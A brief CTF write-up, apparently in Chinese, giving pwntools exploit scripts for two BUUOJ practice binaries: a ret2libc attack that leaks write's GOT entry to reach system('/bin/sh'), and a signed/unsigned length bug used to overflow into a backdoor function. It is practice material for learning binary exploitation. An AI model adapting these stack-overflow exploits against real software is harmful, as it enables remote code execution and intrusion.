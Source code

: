 ## 铁人三项(第五赛区)_2018_rop
### 思路
ret2libc

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",28035)
#p = process("./2018_rop")
elf = ELF("./2018_rop")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
main = 0x080484C6

payload1 = b'A'*140 + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)
p.sendline(payload1)
p.recv(4)
p.sendline(payload1)
write_addr = u32(p.recv(4))

info(hex(write_addr))

system_addr = write_addr - 0xa89e0
binsh = write_addr + 0x961df

payload = b'A'*140+p32(system_addr) + p32(main) + p32(binsh)
p.sendline(payload)

p.interactive()
```

## bjdctf_2020_babystack2
### 思路
有个有符号整数与无符号整数的转换漏洞

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",25144)
#p = process("./bjdctf_2020_babystack2")

backdoor = 0x400726

p.recvuntil(b"name:")
p.sendline(b'-1')

payload = b'A' * (16+8) + p64(backdoor) 
p.recvuntil(b"name?")

p.sendline(payload)

p.interactive()
```
